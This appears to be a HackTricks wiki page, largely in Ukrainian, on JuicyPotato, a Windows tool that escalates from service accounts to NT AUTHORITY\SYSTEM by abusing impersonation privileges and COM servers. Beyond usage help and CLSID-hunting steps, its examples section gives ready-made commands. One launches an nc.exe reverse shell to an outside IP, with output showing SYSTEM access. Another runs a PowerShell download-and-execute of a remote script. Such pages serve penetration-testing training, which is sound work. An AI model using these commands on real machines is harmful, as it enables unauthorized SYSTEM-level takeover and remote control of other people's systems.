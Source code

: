 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato не працює** на Windows Server 2019 та Windows 10 версії 1809 і новіших. Однак, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) можуть бути використані для **отримання тих же привілеїв і доступу на рівні `NT AUTHORITY\SYSTEM`**. _**Перевірте:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (зловживання золотими привілеями) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Цукрова версія_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, з трохи соку, тобто **інший інструмент для підвищення локальних привілеїв, з облікових записів служб Windows до NT AUTHORITY\SYSTEM**_

#### Ви можете завантажити juicypotato з [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Резюме <a href="#summary" id="summary"></a>

[**З Readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) та його [варіанти](https://github.com/decoder-it/lonelypotato) використовують ланцюг підвищення привілеїв на основі [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [сервісу](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126), маючи MiTM слухача на `127.0.0.1:6666`, і коли у вас є привілеї `SeImpersonate` або `SeAssignPrimaryToken`. Під час огляду збірки Windows ми виявили налаштування, де `BITS` був навмисно вимкнений, а порт `6666` був зайнятий.

Ми вирішили озброїти [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Привітайте Juicy Potato**.

> Для теорії дивіться [Rotten Potato - Підвищення привілеїв з облікових записів служб до SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) і слідкуйте за ланцюгом посилань і посилань.

Ми виявили, що, окрім `BITS`, є кілька COM-серверів, які ми можемо зловживати. Вони просто повинні:

1. бути інстанційованими поточним користувачем, зазвичай "користувачем служби", який має привілеї імперсонації
2. реалізовувати інтерфейс `IMarshal`
3. працювати як підвищений користувач (SYSTEM, Адміністратор, …)

Після деяких тестувань ми отримали та протестували розширений список [цікавих CLSID](http://ohpe.it/juicy-potato/CLSID/) на кількох версіях Windows.

### Соковиті деталі <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato дозволяє вам:

* **Цільовий CLSID** _виберіть будь-який CLSID, який ви хочете._ [_Тут_](http://ohpe.it/juicy-potato/CLSID/) _ви можете знайти список, організований за ОС._
* **COM порт прослуховування** _визначте COM порт прослуховування, який ви віддаєте перевагу (замість зашитого 6666)_
* **IP-адреса прослуховування COM** _прив'яжіть сервер до будь-якої IP-адреси_
* **Режим створення процесу** _в залежності від привілеїв імперсованого користувача ви можете вибрати з:_
* `CreateProcessWithToken` (потрібен `SeImpersonate`)
* `CreateProcessAsUser` (потрібен `SeAssignPrimaryToken`)
* `обидва`
* **Процес для запуску** _запустіть виконуваний файл або скрипт, якщо експлуатація успішна_
* **Аргумент процесу** _налаштуйте аргументи запущеного процесу_
* **Адреса RPC-сервера** _для прихованого підходу ви можете аутентифікуватися на зовнішньому RPC-сервері_
* **Порт RPC-сервера** _корисно, якщо ви хочете аутентифікуватися на зовнішньому сервері, а брандмауер блокує порт `135`…_
* **РЕЖИМ ТЕСТУ** _в основному для тестування, тобто тестування CLSID. Він створює DCOM і виводить користувача токена. Дивіться_ [_тут для тестування_](http://ohpe.it/juicy-potato/Test/)

### Використання <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**З juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Якщо у користувача є привілеї `SeImpersonate` або `SeAssignPrimaryToken`, то ви **SYSTEM**.

Майже неможливо запобігти зловживанню всіма цими COM-серверами. Ви можете подумати про зміну дозволів цих об'єктів через `DCOMCNFG`, але удачі, це буде складно.

Фактичне рішення полягає в захисті чутливих облікових записів та програм, які працюють під обліковими записами `* SERVICE`. Зупинка `DCOM` безумовно завадить цій експлуатації, але може мати серйозний вплив на основну ОС.

З: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Запустіть новий CMD (якщо у вас є доступ до RDP)

![](<../../.gitbook/assets/image (300).png>)

## Проблеми з CLSID

Часто стандартний CLSID, який використовує JuicyPotato, **не працює** і експлойт зазнає невдачі. Зазвичай, потрібно кілька спроб, щоб знайти **працюючий CLSID**. Щоб отримати список CLSID для конкретної операційної системи, вам слід відвідати цю сторінку:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Перевірка CLSID**

Спочатку вам знадобляться деякі виконувані файли, окрім juicypotato.exe.

Завантажте [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) і завантажте його у вашу PS сесію, а також завантажте та виконайте [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Цей скрипт створить список можливих CLSID для тестування.

Потім завантажте [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) (змініть шлях до списку CLSID та до виконуваного файлу juicypotato) і виконайте його. Він почне пробувати кожен CLSID, і **коли номер порту зміниться, це означатиме, що CLSID спрацював**.

**Перевірте** працюючі CLSID **за допомогою параметра -c**

## Посилання

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
